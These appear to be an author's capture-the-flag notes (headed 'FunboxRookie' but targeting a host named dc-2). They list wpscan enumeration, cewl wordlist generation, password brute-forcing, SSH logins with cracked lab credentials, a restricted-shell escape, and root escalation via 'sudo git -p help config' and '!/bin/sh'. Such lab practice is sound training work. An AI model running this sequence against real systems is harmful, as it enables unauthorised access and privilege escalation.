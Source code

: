 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# FunboxRookie
# 27/1/2023

----------------------------------------------------
# nmap result / exploitation
----------------------------------------------------
```


wpscan --url //dc-2 --enumerate p --enumerate t --enumerate u
cewl http://dc-2/ > password
wpscan --url http://dc-2 -U users -P password


ssh tom@192.168.112.194 -p 7744  

jerry: adipiscing
tom: parturient
ssh tom@192.168.112.194 -p 7744  
set shell=/bin/bash
export PATH=/bin:/usr/bin:$PATH

su jerry
sudo -l
(root) NOPASSWD: /usr/bin/git
sudo git -p help config
!/bin/sh
```
